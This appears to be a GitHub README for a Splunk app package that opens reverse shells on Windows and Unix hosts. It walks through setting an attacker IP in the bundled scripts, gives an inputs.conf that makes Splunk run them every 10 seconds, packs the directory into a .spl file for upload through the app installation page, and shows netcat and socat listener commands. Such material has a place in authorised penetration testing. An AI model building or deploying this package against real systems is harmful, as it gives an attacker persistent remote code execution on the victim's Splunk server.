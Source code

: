 # reverse_shell_splunk
A simple splunk package for obtaining reverse shells on both Windows and most *nix systems.

# requirements
* splunk administrative access
* a netcat / socat listener on the attacking machine

# how to use

* Depending on the target machine, you will either need to edit the rev.py for unix type machines or run.ps1 for Windows machines. Enter your attacking machine IP and ports.
* Your files and directory structure should look like this.

```
reverse_shell_splunk
├── bin
│   ├── rev.py
│   ├── run.bat
│   └── run.ps1
└── default
    └── inputs.conf
```

* inputs.conf in this instance is the configuration file that tells splunk to launch the run.bat file and at what interval. In the example below "run.bat" will be run every 10 seconds. Because splunk only runs .bat files, the call inside "run.bat" is to a file with its same name. When run.bat is called, run.ps1 being in the same directory and having the same name will be run.

```
[script://./bin/rev.py]
disabled = 0
interval = 10
sourcetype = pentest

[script://.\bin\run.bat]
disabled = 0
sourcetype = pentest
interval = 10

```
* Once you have finished editing the files you will need to tar up the directory and its contents. Make sure to keep the directory and file structure in the example above. Lastly rename the .tgz file to .spl

```
tar -cvzf reverse_shell_splunk.tgz reverse_shell_splunk
mv reverse_shell_splunk.tgz reverse_shell_splunk.spl
```

* Launch your listener and upload this package via the app installation page.

Listener options:

```
nc -nlvp "port"
```

or

```
socat `tty`,raw,echo=0 tcp-listen:"port"
```

Note: I have had to restart the splunk service on unix type machines in my testing for this to work. No restarts are needed on windows machine.
